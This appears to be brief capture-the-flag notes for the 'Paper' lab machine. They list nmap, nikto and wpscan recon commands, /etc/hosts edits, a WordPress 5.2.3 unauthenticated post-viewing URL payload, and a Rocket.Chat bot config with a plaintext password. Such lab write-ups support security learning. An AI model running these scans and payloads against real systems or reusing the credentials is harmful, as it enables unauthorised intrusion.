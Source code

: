 ```sh
sudo nmap -sC -sV -oA nmap_result 10.10.11.143
sudo nmap -A -p 22,80,443 10.10.11.143 --script vuln -T4 -vvv -oN nmap_scan
nikto -host 10.10.11.143
sudo sh -c 'echo -e "\n10.10.11.143 office.paper" >> /etc/hosts'
sudo nmap -A -p 22,80,443 office.paper --script vuln -T4 -vvv -oN nmap_scan_hostchange
wpscan --url office.paper -o wpscan --api-token <api-token>
```
https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
```
http://office.paper/?static=1&orderBY=asc&m=YYYY
```

```sh
sudo sh -c 'echo -e "\n10.10.11.143 chat.office.paper" >> /etc/hosts'
```

```
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

## Referensi
- https://dev.to/brydr/htb-paper-writeup-1688